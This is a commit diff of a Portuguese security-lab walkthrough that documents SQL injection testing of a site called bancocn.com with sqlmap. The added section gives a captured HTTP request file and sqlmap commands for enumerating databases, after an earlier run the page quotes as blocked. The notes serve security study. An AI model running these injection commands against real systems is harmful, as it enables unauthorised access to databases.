

Before and after one commit to Baku-Stark/CyberSecurity, a Markdown page: Attacks/BancoCN/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
`Banco CN`

````diff
--- a/Attacks/BancoCN/README.md
+++ b/Attacks/BancoCN/README.md
@@ -308,7 +308,7 @@ sudo apt-get install sqlmap
 
 Mesmo descobrindo que o site possui falha de escrita SQL, o `sqlmap` não conseguiu fazer uma busca pelos bancos de dados na aplicação e respondeu com o seguinte erro
 
-Comando sqlmap: `sqlmap -u "www.bancocn.com/cat.php?id=1" --dbs --batch`
+**Comando sqlmap**: `sqlmap -u "www.bancocn.com/cat.php?id=1" --dbs --batch`
 
 ```bash
 [09:42:00] [WARNING] GET parameter 'id' does not seem to be injectable
@@ -316,3 +316,26 @@ Comando sqlmap: `sqlmap -u "www.bancocn.com/cat.php?id=1" --dbs --batch`
 [09:42:00] [WARNING] HTTP error codes detected during run:
 403 (Forbidden) - 86 times
 ```
+
+Utilizando o `sqlmap` com os headers de autenticação do site na URL `cat.php?id={:id}`
+
+`headers.txt`
+
+```txt
+GET /cat.php?id=1 HTTP/1.1
+Host: www.bancocn.com
+User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
+Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
+Accept-Encoding: gzip, deflate
+Referer: http://www.bancocn.com/
+DNT: 1
+Sec-GPC: 1
+Connection: keep-alive
+Upgrade-Insecure-Requests: 1
+Priority: u=0, i
+```
+
+**Comando sqlmap**: `sqlmap -r headers.txt --batch`
+
+- `sqlmap -r headers.txt --batch --dbs`
````
Also changed, not shown: Attacks/README.md (added, +71 -0 lines).
